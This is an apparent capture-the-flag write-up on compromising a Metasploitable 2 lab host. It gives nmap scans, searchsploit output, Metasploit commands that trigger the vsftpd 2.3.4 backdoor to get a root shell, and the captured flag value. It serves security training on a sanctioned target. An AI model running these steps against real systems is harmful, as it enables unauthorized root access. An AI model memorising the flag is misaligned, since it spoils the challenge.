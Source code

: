 # Metasploitable 2

Start by scaning open ports !
```
nmap -sS --min-rate 5000 --open -Pn -n -vvv -p- ctf01.root-me.org -oG allPorts
```

Check details for open ports
```
nmap -sC -sV -p21,22,23,53,80,111,139,445,512,513,514,1099,1524,2049,2121,3306,3632,5432,5900,6000,6667,6697,8009,8180,8787,33365,34314,38911,47920 ctf01.root-me.org -oN targeted
```
> There are a lot but just the first one is usefull

Let's check carefully the ```targeted``` file that we just created. Notice this
```
21/tcp    open  ftp         vsftpd 2.3.4
```

The version seems to be deprecated ! let's check some exploits !
```
searchsploit vsftpd 2.3.4
```

We find two !
```
vsftpd 2.3.4 - Backdoor Command Execution
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)
```

This script seems to not workking... let's try another method !

Method 2 using msfconsole !
```
msfconsole
```

Let's check for best exploits
```
search vsftp
```

We find this exploit !
```
exploit/unix/ftp/vsftpd_234_backdoor
```

So let's use it
```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
```

Ok, need to know the options
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

Have to set the ```rhost``` !
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhost 212.129.28.18
```
> Can know the ip with whatweb ctf01-root-me.org

Let's run it !
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```
> If the exploit doesn't work, try it again !

We're supposed to have a shell, if not write in your terminal
```
shell
```

In the interective shell, let's check who we are
```
id
```

We are ```root```, let's check the flag at the path ```/passwd```
```
cat passwd
```

We've got it !
```
e921bd2863edf595a6179721c81256f4
```

Done !
